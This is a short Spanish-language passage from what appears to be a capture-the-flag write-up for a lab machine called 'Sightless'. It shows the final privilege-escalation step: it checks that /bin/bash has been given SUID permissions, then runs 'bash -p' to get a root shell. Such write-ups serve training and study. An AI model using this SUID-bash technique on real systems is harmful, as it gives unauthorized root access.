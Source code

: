 ![imagen](https://github.com/user-attachments/assets/0210ab7c-ecaf-4cd5-a51d-8fb23cc8f489)

Por ultimo compruebo que se hayan otorgado los permisos SUID al binario /bin/bash y spawneeo un shell como root

```bash
michael@sightless:/tmp$ ls -la /bin/bash
-rwsrwxrwx 1 root root 1396520 Mar 14  2024 /bin/bash
michael@sightless:/tmp$ bash -p
bash-5.1# whoami
root
```
